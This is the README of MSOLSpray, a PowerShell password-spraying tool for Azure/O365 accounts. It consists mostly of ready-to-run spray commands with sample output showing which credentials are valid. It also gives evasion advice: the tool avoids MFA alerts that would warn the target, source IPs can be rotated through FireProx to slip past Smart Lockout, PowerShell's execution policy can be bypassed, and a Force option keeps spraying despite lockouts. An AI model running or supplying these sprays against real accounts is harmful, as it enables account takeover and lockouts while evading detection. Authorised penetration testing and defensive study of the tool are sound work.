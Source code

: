 # MSOLSpray

A password spraying tool for Microsoft Online accounts (Azure/O365). The script logs the response of https://login.microsoft.com. This is used for example to indicating if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled.

BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

## Why another spraying tool?

Yes, I realize there are other password spraying tools for O365/Azure. The main difference with this one is that this tool not only is looking for valid passwords, but also the extremely verbose information Azure AD error codes give you. These error codes provide information relating to if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, if the account is disabled, if the password is expired and much more.

So this doubles, as not only a password spraying tool but also a Microsoft Online recon tool that will provide account/domain enumeration. In limited testing it appears that on valid login to the Microsoft Online OAuth2 endpoint it isn't auto-triggering MFA texts/push notifications making this really useful for finding valid creds without alerting the target.

Lastly, this tool works well with [FireProx](https://github.com/ustayready/fireprox) to rotate source IP addresses on authentication requests. In testing this appeared to avoid getting blocked by Azure Smart Lockout.

**Brought to you by:**

[<img src="https://www.blackhillsinfosec.com/wp-content/uploads/2016/03/BHIS-logo-L-300x300.png">](https://www.blackhillsinfosec.com)

## Quick Start

Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass' or run the `Set-ExecutionPolicy -s p -e b` command in a existing PowerShell Session.

### Test single username and password

```PowerShell
PS C:\> Import-Module MSOLSpray.ps1
PS C:\> Invoke-MSOLSpray -Usernames Steve@domain.com -Passwords Winter2020

Time          : 2020-08-14 12:23:44
Username      : Steve@domain.com
Password      : Winter2020
IsValid       : True
ResponseError : None.
```

### Test multiple usernames and passwords

```PowerShell
PS C:\> Invoke-MSOLSpray -Usernames Steve@domain.com,Klaas@domain.nl -Password Winter2020,Zomer2020 | Format-Table

Time                Username         Password   IsValid ResponseError
----                --------         --------   ------- -------------
2020-08-14 12:25:15 Steve@domain.com Winter2020 True    None.
2020-08-14 12:25:15 Klaas@domain.nl  Winter2020 False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Zomer2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Klaas@domain.nl  Zomer2020  True    None.
```

### Test multiple usernames and passwords using userlists and passwordlists

```PowerShell
PS C:\> Invoke-MSOLSpray -UsernameList C:\users.txt -PasswordList C:\seasons_year.txt,C:\company_name_special_characters.txt | Format-Table

Time                Username         Password    IsValid ResponseError
----                --------         --------    ------- -------------
2020-08-14 12:25:15 Steve@domain.com Spring2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Spring020   False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Summer2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Summer2020  True    None.
2020-08-14 12:25:15 Steve@domain.com Fall2020    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Fall2020    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Winter2020  True    None.
2020-08-14 12:25:15 John@domain.com  Winter2020  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Spring2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Spring2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Summer2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Summer2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Fall2019    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Fall2019    False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Winter2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Winter2019  False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Domain!     False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Domain!     False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 Steve@domain.com Domain@     False   AADSTS50126: Error validating credentials due to invalid username or password.
2020-08-14 12:25:15 John@domain.com  Domain@     False   AADSTS50126: Error validating credentials due to invalid username or password.
```

### Filter output to only show valid passwords

```PowerShell
PS C:\> Invoke-MSOLSpray -UsernameList C:\users.txt -PasswordList C:\seasons_year.txt,C:\company_name_special_characters.txt | Where-Object {$_.IsValid -eq $true} | Format-Table

Time                Username         Password    IsValid ResponseError
----                --------         --------    ------- -------------
2020-08-14 12:25:15 John@domain.com  Summer2020  True    None.
2020-08-14 12:25:15 Steve@domain.com Winter2020  True    None.
```

### Write valid passwords to a output file

```PowerShell
PS C:\> Invoke-MSOLSpray -Usernames Steve@domain.com -Passwords Winter2020,Summer2020 -OutFile C:\outfile.txt
Valid results have been written to C:\outfile.txt

PS C:\> Get-Content C:\outfile.txt
2020-08-14 12:25:15 : Steve@domain.com : Winter2020 : None.
```

### Invoke-MSOLSpray Options

```txt
Usernames           - Takes in a single or multiple usernames in the following format "user@domain.com". Can be combined with UsernameList option.
UsernameList        - Takes in a single or multiple UsernameList files filled with usernames. Usernames should be entered one-per-line in the following format "user@domain.com". Can be combined with Usernames option.
Passwords           - Takes in a single or multiple passwords. Can be combined with PasswordList option.
PasswordList        - Takes in a single or multiple PasswordList files with passwords. Entered one-per-line. Can be combined with Passwords option.
URL                 - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
Delay               - The delay used to wait between authentication attempts.
UserAgent           - The UserAgent PowerShell will use during the logon the password spray.
IgnoreSSL           - This will disable any SSL/TLS checks preformed by Invoke-WebRequest during the password spray.
OutFile             - A file to output valid results to.
lockout_threshold   - The threshold used to stop the spray when this many locked accounts are detected.
ValidPasswordCodes  - The ErrorCodes that indicate a password was valid but can not be used for reason X.
LockoutCodes        - The ErrorCodes that indicates if a account is locked.
DisableUniqueValues - By default the usernames and passwords are checked for duplicates. Use this switch to disable this check.
Force               - Forces the spray to continue and not stop when multiple account lockouts are detected.
```
